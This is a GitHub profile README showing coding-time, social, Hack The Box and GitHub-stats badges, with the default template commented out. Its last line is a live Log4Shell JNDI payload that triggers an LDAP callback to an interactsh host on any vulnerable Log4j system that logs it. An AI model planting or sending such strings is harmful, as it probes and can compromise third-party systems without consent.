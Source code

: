 ### Hi 👋🦆     
[![wakatime](https://wakatime.com/badge/user/7ba5a68a-56a6-4dc6-8013-858ad60eb0b8.svg)](https://wakatime.com/@7ba5a68a-56a6-4dc6-8013-858ad60eb0b8)  <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" height="20" /></a> 
<br>
<a href="https://app.hackthebox.com/profile/435777" target="blank">
<img src="https://www.hackthebox.eu/badge/image/435777" alt="lwlx on Hack The Box" height=""/></a> 

[![Lawlez's GitHub Stats](https://github-readme-stats.vercel.app/api?username=Lawlez&theme=transparent&count_private=true&show_icons=true&include_all_commits=true)](https://dev.lwlx.xyz)  [![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=Lawlez&theme=transparent&layout=compact&langs_count=8&hide=html,css)](https://dev.lwlx.xyz)
<!--![](https://github-readme-streak-stats.herokuapp.com/?user=Lawlez&theme=transparent&hide_border=false)<br/>-->

[![@lawlez's Holopin board](https://holopin.io/api/user/board?user=lawlez)](https://holopin.io/@lawlez)


<!--[![Coding Time stats](https://github-readme-stats.vercel.app/api/wakatime?username=0x&layout=compact&theme=dark&height=20)](https://dev.lwlx.xyz)-->
<!--
**Lawlez/Lawlez** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.
<p align="left"> <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" /></a> </p>
Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
${jndi:ldap://c6tfggt2vtc0000gkj1ggdp8aecyyyyyb.interactsh.com/ lwlx}
